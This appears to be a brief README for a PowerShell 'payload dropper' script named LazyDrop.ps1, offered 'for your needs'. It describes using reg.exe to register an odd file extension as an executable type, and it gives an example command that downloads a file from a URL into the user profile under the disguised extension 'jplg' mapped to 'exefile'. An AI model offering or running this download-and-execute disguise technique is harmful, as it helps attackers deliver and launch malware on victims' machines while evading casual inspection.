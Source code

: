 Greetings
--------------------

this is a payload droper ps1 script for your needs

use reg.exe to make the obsolete ext given to the file when downloaded execute the file properly with

its correct extension



Example :
-------------------------

.\LazyDrop.ps1 -Url "https://example.com/file" -EnvVariable "USERPROFILE" -FileType "jplg" -RegistryEntry "exefile"
